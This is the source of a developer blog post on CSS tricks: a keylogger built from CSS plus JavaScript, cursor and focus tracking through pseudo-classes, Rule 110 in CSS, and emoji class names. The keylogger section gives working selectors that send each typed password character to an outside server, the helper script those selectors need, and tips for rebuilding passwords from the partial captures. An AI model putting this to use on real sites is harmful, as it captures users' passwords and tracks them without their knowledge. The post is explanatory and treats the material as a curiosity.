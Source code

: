 +++
title = "CSS Can Do This... And It's Terrifying!"
date = 2019-08-14T11:33:46+10:00
description = "A look at how you can abuse CSS for evil(?)"
draft = false
tags = ["css"]
+++

{{< tweet 1161443226580127745 >}}

Inspired by today's _#DevDiscuss_ I commented with my favourite misdeeds in CSS.

{{< tweet 1161446544723202048 >}}

So let's have a look at how they work.

## CSS Keylogger

This has [been around for a while now](https://github.com/maxchehab/CSS-Keylogging/) that you can use CSS to create a keylogger, but as is rightly pointed out in [this post](https://www.bram.us/2018/02/21/css-keylogger-and-why-you-shouldnt-worry-about-it/) it's not "really" just CSS, it does rely on some JavaScript. So let's dissect how it works.

We have our selector like so:

```css
input[type="password"][value$="a"] {
    background-image: url("http://localhost:3000/a");
}
```

_Assume it's repeated for every character you want to log._

The important part of the selector is the substring match on `value`, this part: `[value$="a"]`. This is an [attribute selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors), specifically a substring selector that was added as part of [CSS 3](https://drafts.csswg.org/selectors-3/#attribute-substrings) and what it's doing is saying is that it'll match when the `value` attribute of the DOM element ends with `a` (you can use `^` for begins with if you wanted).

So we're matching when the `value` attribute contains that but if you were to look into the DOM of a form on a page you'll notice something, the `value` attribute isn't set. Here, take a look at this:

<input type="text" value="Test here" id="demo-01" />

If you open up the dev tools in your browser you'll notice that when you type in the input the **attribute** doesn't change, it's always set to `Test here`. But if you were to use JavaScript to inspect the value, `document.getElementById('demo-01').value` it'll have what _you_ entered. This is because the attribute represents the [default value](https://html.spec.whatwg.org/multipage/form-control-infrastructure.html#concept-fe-value) of the `<input>`, not the current value, that's something that might get computed, depending on the type of input you have.

What does it mean for us creating a keylogger in CSS? Well, the simple fact is that you can't create one **purely** with CSS but you can create one with CSS and a bit of JavaScript because we're going to need to update the `value` attribute along the way.

This is quite easy to do, you just need some JavaScript like this:

```js
let inputs = document.getElementsByTagName("input");

for (let i = 0; i < inputs.length; i++) {
    let input = inputs[i];

    input.addEventListener("keypress", e => {
        e.preventDefault();
        let char = String.fromCharCode(e.keyCode);
        let newValue = input.value + char;
        input.setAttribute("value", newValue);
        input.setSelectionRange(newValue.length, newValue.length);
    });
}
```

What this does is it "pretends" that you're doing your keypress appropriately by catching it early and then pushing the character you _intended_ to enter onto the `value` attribute, making it look like you were typing normally. We then use the `setSelectionRange` method on the input to position the caret to the end of the input so you are none the wiser. [A demo can be found here of this in action]({{< ref "/demos/css-hacking/keylogger.md" >}}).

But if you're able to run JavaScript to bypass how the DOM works, why bother with CSS anyway? The problem isn't so much the code _you_ write but more the code you might leverage, in particular, UI frameworks.

For example, React synchronises the `value` attribute with state if you're using a controlled form, which is something that [this issue](https://github.com/facebook/react/issues/11896) tracks. So if you're on a website that is using React then that website is vulnerable to this kind of an attack, whether it's through an extension in your browser or some dodgy ad running on the site.

Yes, you require JavaScript to properly implement a "CSS keylogger", but that doesn't mean that you have to write the JavaScript.

I just want to quickly touch on some points the author makes in [this post](https://www.bram.us/2018/02/21/css-keylogger-and-why-you-shouldnt-worry-about-it/). They state that it's not really a big deal because the `background-image` is only done for the first match so repeated characters won't pick up (e.g. a password of `password` will miss a `s`), and that is true (the `value` didn't change the last character at `pass` so the selector wasn't triggered) but the data capture will include timestamps and if you take a level of variance between the timestamp of events you can extrapolate your own gaps (if it took 0.1ms between captures and then there was an 0.5, maybe some characters were duplicated). The same goes for the observation that the order-of-receive isn't guaranteed. That's true, the server may receive them out of order, but when you have all (or 90+%) characters of a password the ability to brute force goes down drastically.

## User Tracking with CSS

This is not quite as scary as a keylogger but it does borrow the same underlying principle as the keylogger.

For this we're going to exploit [CSS Pseudo-Classes](https://developer.mozilla.org/en-US/docs/Web/CSS/Pseudo-classes), which allow us to hook into a number of events of DOM elements.

<div id="demo-02">
    <p>Hover over me</p>
    <input type="text" placeholder="focus on me" />
    <button>Click me</button>
</div>

<style>
#demo-02 p:hover {
    background-color: #f0a;
}

#demo-02 input:focus {
    background-color: #bada55
}

#demo-02 button:active {
    color: #ff0000;
}
</style>

Here's the CSS that I applied to those elements:

```css
#demo-02 p:hover {
    background-color: #f0a;
}

#demo-02 input:focus {
    background-color: #bada55;
}

#demo-02 button:active {
    color: #ff0000;
}
```

I'm just using pseudo-classes like `:hover`, `:focus` and `:active` to know when you've done something and then change some colours, but again I could be setting the `background-image` to a tracking URL.

How could this be made useful? Well, think of it like implementing Google Analytics, you could do something like attach a `:hover` state to the `body` element so you know when the page is appearing for the user and then more hover states on all the child elements; as the user moves around the page you're capturing the rough position of their cursor and knowing what they are spending their time on. If there's a form you can work out how long they spent on each field, how they navigate forwards and backwards through a multi-step form, or if they change answers on radio buttons/checkboxes.

Like the keylogger it isn't as straight forward as it might seem, you would have to have a decent idea of the structure of the DOM to be able to create a really fine-grade tracker (or use JavaScript), but if you're using it for your own analytics it's very achievable.

## CSS is Turing Complete

_Ok, CSS + HTML if you want to be pedantic_ but it's true, it is possible to implement [Rule 110](https://en.wikipedia.org/wiki/Rule_110) with just CSS and HTML:

{{< youtube Ak_sWZyHi3E >}}

Credit to [eliheeli](https://github.com/elitheeli) on GitHub for the [working example of it](https://github.com/elitheeli/stupid-machines/tree/master/rule110).

This works by abusing Pesudo-classes like our tracker and combining those with the [Adjacent sibling combinator](https://developer.mozilla.org/en-US/docs/Web/CSS/Adjacent_sibling_combinator). The adjacent sibing combinator, or `+` for short, works like this:

<div id="demo-03">
    <p>I'm a paragraph.</p>
    <p>I'm an adjacent paragraph</p>
</div>

<style>
#demo-03 p {
    color: #00bb00;
}

#demo-03 p + p {
    font-family: 'Comic Sans MS', sans serif;
    font-style: italic;
}
</style>

```css
#demo-03 p {
    color: #00bb00;
}

#demo-03 p + p {
    font-family: "Comic Sans MS", sans serif;
    font-style: italic;
}
```

Here we're applying a rule to all `p` elements, but then we're using the adjacent sibling selector to apply a rule to the 2nd `p` only (in this case, turning on a different font family and style). By applying conditions on the first half of the selector, such as a pesudo-class, the cascade of the rules can be greatly limited.

## Emoji Class Names

Who doesn't love themselves a liberal usage of Emoji's throughout their work? Well did you know that you can use Emoji as the class names in CSS? According [to the spec](https://www.w3.org/TR/CSS21/syndata.html#characters) they are _technically_ valid, meaning you can do this:

<div id="demo-04">
 <p class="🤣">Hello!</p>
</div>

<style>
#demo-04 .🤣 {
    font-family: 'Comic Sans MS';
    text-decoration: #f0a underline overline wavy;
    text-shadow: 2px 2px #bada55;
    transform: rotate(45deg);
    display: inline-block;
}
</style>

```css
#demo-04 .🤣 {
    font-family: "Comic Sans MS";
    text-decoration: #f0a underline overline wavy;
    text-shadow: 2px 2px #bada55;
    transform: rotate(45deg);
    display: inline-block;
}
```

In reality [you probably shouldn't do this](http://adrianroselli.com/2017/10/avoid-emoji-as-class-names.html), but hey, you could shave a few bytes over the wire for the sake of a few users not being able to access your site (or dev on your codebase)!

## Conclusion

What started from a throw-away tweet became the catalyst for writing a post I've been meaning to do for a few years now! 🤣

I hope you've enjoyed a look at a few things you **can** do with CSS, but maybe **shouldn't**.

What are your favourite ways to exploit CSS?
